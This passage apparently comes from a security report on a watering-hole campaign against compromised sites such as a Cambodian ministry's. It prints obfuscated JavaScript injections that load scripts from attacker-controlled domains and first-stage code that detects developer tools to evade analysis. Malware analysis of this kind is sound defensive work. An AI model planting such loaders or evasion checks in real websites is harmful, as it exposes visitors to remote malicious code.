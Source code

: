 

Table 2 - Alexa rank of the compromised websites
Analysis
The modus operandi is similar on all compromised websites. The attackers add a small piece of JavaScript code either in the index page or in a JavaScript file hosted on the same server. The piece of code in Figure 2, slightly obfuscated, then loads another script from a server controlled by the attackers. The following code, added in https://www.mfaic.gov[.]kh/wp-content/themes/ministry-of-foreign-affair/slick/slick.min.js, will load the file from https://weblink.selfip[.]info/images/cdn.js?from=maxcdn.
(function() {
    var pt = "http";
    var l = document.createElement('script');
    l.src = pt + "s://" + arguments[0] + arguments[2] + arguments[3] + 'ip.' + 'info/images/cdn.js?from=maxcdn';
    document.getElementsByTagName('body')[0].appendChild(l)
})('web', 'a', 'link', '.self');

Figure 2 – Piece of JavaScript code added to mfaic.gov[.]kh
In order to evade detection, they take the following measures:

They obfuscate the scripts to prevent static extraction of the final URL.
The URL looks like a real JavaScript library used by the website.
They use one different domain and URI per compromised website.
The script is different per compromised website. The following piece of code is the script inserted into another compromised website:

var script = document.createElement("script");
var i = 'crash-course';
var s = "fzgbc knowsztall znfo";
var _ = '/';
var e = "VisitorIdentification.js?sa=" + i;
script.async = true;
script.src = "htt" + "ps:" + _ + _ + s.split(" ").map(x => x.replace("z", "i")).join(".") + _ + e;
var doc = document.getElementsByTagName('script')[0];
doc.parentNode.insertBefore(script, doc);

Figure 3 - Another piece of JavaScript inserted in a targeted website
First stage
Depending on the location of the IP address of the visitor, the first stage server, e.g. weblink.selfip[.]info for mfaic.gov[.]kh, delivers either a decoy script (a random legitimate JavaScript library) or the first stage script (SHA-1: 2194271C7991D60AE82436129D7F25C0A689050A for example). Not all the servers have a location check but when it is enabled, only visitors from Vietnam and Cambodia actually receive the malicious script.
The first stage script contains several checks to evade detection, as shown in Figure 4.
[…]
function t(n) {
    var r = this;
    !function (t, n) {
        if (!(t instanceof n))
            throw new TypeError('Cannot call a class as a function');
    }(this, t), this.t = {
        o: null,
        s: !0
    }, this.scr = !0, this.r(), this.i = !0, window.addEventListener('scroll', function () {
        r.i || r.scr && !r.t.s && (r.scr = !1, r.c(n)), r.i = !1;
    });
}
return t.prototype.r = function () {
    var t = this;
    setInterval(function () {
        var n = window.outerWidth - window.innerWidth > 160, r = window.outerHeight - window.innerHeight > 160, e = n ? 'vertical' : 'horizontal';
        r && n || !(window.Firebug && window.Firebug.chrome && window.Firebug.chrome.isInitialized || n || r) ? (t.t.s = !1, t.t.o = null) : (t.t.s = !0, t.t.o = e);
    }, 500);